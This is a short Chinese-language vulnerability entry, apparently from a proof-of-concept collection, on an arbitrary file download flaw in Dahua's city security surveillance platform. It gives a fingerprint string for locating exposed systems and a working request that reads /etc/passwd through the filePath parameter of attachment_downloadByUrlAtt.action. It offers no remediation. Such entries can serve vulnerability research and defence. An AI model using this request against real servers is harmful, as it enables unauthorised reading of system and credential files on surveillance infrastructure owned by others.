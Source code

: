# 大华 城市安防监控系统平台管理 attachment_downloadByUrlAtt.action 任意文件下载漏洞

## 漏洞描述

大华城市安防监控系统平台管理存在任意文件下载漏洞，攻击者通过漏洞可以下载服务器上的任意文件

## 漏洞影响

<a-checkbox checked>大华城市安防监控系统平台管理</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"attachment_downloadByUrlAtt.action"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1647528195700-90c15ce4-496f-4976-8538-8b39e1f248af.png)

验证POC

```javascript
/portal/attachment_downloadByUrlAtt.action?filePath=file:///etc/passwd
```

![img](../../../.vuepress/public/img/1647528297462-f92141b3-fa43-4cce-9717-13ba3b144dc7.png)



若有收获，就点个赞吧